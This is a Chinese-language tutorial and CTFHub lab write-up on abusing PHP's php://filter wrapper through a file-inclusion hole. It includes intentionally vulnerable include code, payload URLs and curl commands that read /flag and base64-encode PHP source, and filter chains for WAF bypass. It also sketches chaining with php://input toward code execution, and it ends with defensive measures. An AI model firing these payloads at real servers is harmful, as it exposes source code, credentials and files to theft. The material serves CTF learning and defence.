

一、php://filter 是什么
php://filter 是 PHP 提供的一种元封装协议（meta wrapper），用于在访问数据流时对数据进行过滤和转换。
与 php://input 不同，php://filter 的核心价值不在于执行代码，而在于以安全的方式读取文件内容——尤其是当目标文件是 PHP 源码时。
二、为什么需要 php://filter 读取源码
假设存在如下漏洞代码：
<?php
$file = $_GET['file'];
include($file); // 用户可控！
?>
如果我们直接传入 ?file=index.php，会发生什么？
GET /?file=index.php HTTP/1.1
include('index.php') 会执行 index.php 中的 PHP 代码，而不是显示它的源码。页面上看到的仍然是渲染后的 HTML 输出。
那如何看到源码呢？
答案就是 php://filter。利用它的编码过滤器，可以在 PHP 代码被执行前，先将文件内容进行 Base64 编码：
?file=php://filter/read=convert.base64-encode/resource=index.php
这样返回的就是 Base64 编码后的源码字符串，而不是执行结果。
三、基本语法结构
php://filter/<action>=<filter_list>/resource=<target_file>
| 组成部分 | 说明 |
|---|---|
read= / write= |
对读取/写入的数据应用过滤器 |
filter_list |
过滤器名称，支持链式调用（用 ` |
resource= |
指定目标文件路径 |
3.1 常用过滤器
| 过滤器 | 功能 |
|---|---|
convert.base64-encode |
Base64 编码 |
convert.base64-decode |
Base64 解码 |
string.rot13 |
ROT13 编码 |
string.toupper |
转大写 |
string.tolower |
转小写 |
convert.iconv.* |
字符集转换 |
四、实战案例：CTFHub 文件包含读源码
4.1 题目环境
URL: http://<TARGET_IP>:<PORT>/
页面提示：
i don't have shell, how to get flag?
flag in <code>/flag</code>
说明 flag 位于服务器的 /flag 文件中。
4.2 直接读取 flag
由于 /flag 是纯文本文件（不含 PHP 标签），include('/flag') 会将其内容原样输出到页面。
构造 Payload：
GET /?file=php://filter/resource=/flag HTTP/1.1
Host: <TARGET_IP>:<PORT>

Response：
ctfhub{xxxxxxxxxxxxxxxxxxxxxxxx}
4.3 关键点解析
| 关键点 | 说明 |
|---|---|
php://filter/resource=/flag |
resource= 指定要读取的目标文件 |
| 无过滤器时 | 直接读取文件原始内容，等同于 include('/flag') |
| 为什么能读到 flag | /flag 是纯文本，include() 不会执行任何 PHP 代码，直接输出内容 |
五、进阶用法：读取 PHP 源码
如果题目要求读取 index.php 的源码，就需要用到编码过滤器防止 PHP 被执行。
5.1 Base64 编码读取
GET /?file=php://filter/read=convert.base64-encode/resource=index.php
返回的是 Base64 字符串，解码后即可看到原始 PHP 源码。
5.2 链式过滤器
先编码再解码（某些场景下用于绕过 WAF）：
?file=php://filter/read=convert.base64-encode|convert.base64-decode/resource=index.php
5.3 用 iconv 绕过某些限制
?file=php://filter/convert.iconv.UTF-8.UTF-16/resource=index.php
六、curl 复现流程
步骤 1：读取 flag（纯文本）
curl "http://<TARGET>/?file=php://filter/resource=/flag"
步骤 2：读取 PHP 源码（Base64 编码）
curl "http://<TARGET>/?file=php://filter/read=convert.base64-encode/resource=index.php"
步骤 3：解码源码
# 将返回的 Base64 字符串解码
echo "PD9waHAg..." | base64 -d
七、php://filter vs php://input
| 特性 | php://filter | php://input |
|---|---|---|
| 主要用途 | 读取文件（源码、配置等） | 执行任意 PHP 代码 |
| 是否执行 PHP | 可选（不加过滤器会执行） | 会执行 |
| 是否需要请求体 | 否 | 是 |
| 读取源码能力 | ✅ 强（通过编码绕过执行） | ❌ 无法直接读源码 |
| RCE 能力 | ❌ 不能直接 RCE | ✅ 可直接 RCE |
组合使用思路：
- 先用
php://filter读取源码，分析漏洞点 - 再用
php://input注入代码，实现 RCE
八、防御方法
-
关闭 allow_url_include
allow_url_include = Off -
白名单校验
$allowed = ['home.php', 'about.php']; if (!in_array($_GET['file'], $allowed)) { die('Invalid file'); } include($_GET['file']); -
过滤伪协议关键字
if (strpos($_GET['file'], 'php://') !== false) { die('Forbidden'); } -
使用 open_basedir 限制 PHP 只能访问指定目录，防止跨目录读取
/flag等敏感文件。
九、总结
php://filter 是文件包含漏洞中信息收集的利器：
- 通过编码过滤器（如 Base64），可以安全地读取 PHP 源码而不被解析执行
- 对于纯文本文件（如
/flag），可以直接用resource=读取内容 - 与
php://input配合使用，形成完整的「信息收集 → 代码执行」攻击链
在 CTF 中，当你遇到文件包含但无法直接 RCE 时，先尝试 php://filter 读源码 往往是打开局面的第一步。